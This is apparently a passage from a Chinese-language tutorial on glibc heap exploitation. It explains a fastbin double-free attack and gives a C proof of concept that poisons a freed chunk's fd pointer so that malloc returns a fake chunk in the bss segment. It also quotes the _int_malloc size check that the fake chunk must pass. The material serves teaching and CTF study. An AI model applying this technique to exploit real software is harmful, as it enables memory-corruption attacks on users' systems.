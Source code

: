 ![img](fastbin-attack/fastbin_free_chunk3.png)

注意因为 chunk1 被再次释放因此其 fd 值不再为 0 而是指向 chunk2，这时如果我们可以控制 chunk1 的内容，便可以写入其 fd 指针从而实现在我们想要的任意地址分配 fastbin 块。 下面这个示例演示了这一点，首先跟前面一样构造 main_arena=>chunk1=>chun2=>chunk1的链表。之后第一次调用 malloc 返回 chunk1 之后修改 chunk1 的 fd 指针指向 bss 段上的 bss_chunk，之后我们可以看到 fastbin 会把堆块分配到这里。

```c
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;  
} CHUNK,*PCHUNK;

CHUNK bss_chunk;

int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    void *chunk_a,*chunk_b;

    bss_chunk.size=0x21;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);

    chunk_a=malloc(0x10);
    *(long long *)chunk_a=&bss_chunk;
    malloc(0x10);
    malloc(0x10);
    chunk_b=malloc(0x10);
    printf("%p",chunk_b);
    return 0;
}//chunkb 直接可以编辑bss段
```

**值得注意的是，我们在 main 函数的第一步就进行了bss_chunk.size=0x21;的操作，这是因为_int_malloc会对欲分配位置的 size 域进行验证，如果其 size 与当前 fastbin 链表应有 size 不符就会抛出异常。**

_int_malloc 中的校验如下

```C
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
    {
      errstr = "malloc(): memory corruption (fast)";
    errout:
      malloc_printerr (check_action, errstr, chunk2mem (victim));
      return NULL;
}
```
